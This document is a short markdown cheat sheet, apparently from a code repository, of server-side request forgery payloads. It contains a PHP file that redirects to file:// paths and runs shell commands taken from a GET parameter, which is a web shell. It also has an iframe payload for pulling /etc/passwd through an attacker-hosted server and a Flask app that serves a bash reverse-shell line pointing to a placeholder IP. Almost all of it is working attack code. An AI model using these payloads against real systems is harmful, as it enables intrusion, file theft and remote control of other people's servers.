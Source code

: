 # SSRF

PHP File:
```php
<?php header('location:file://'.$_REQUEST['x']); ?>
<?php system($_GET["cmd"]);?>
```

Start Server:
```sh
php -S 0.0.0.0:9001
```

Payload Example:
```html
<iframe height="2000" width="800" src="http://<yourip>:9001/exfiltrate.php?x=/etc/passwd"></iframe>
```

## Flask Example
```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
    return """#!/bin/bash
bash -c 'bash -i >& /dev/tcp/YOUR_IP/9001 0>&1'
"""
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```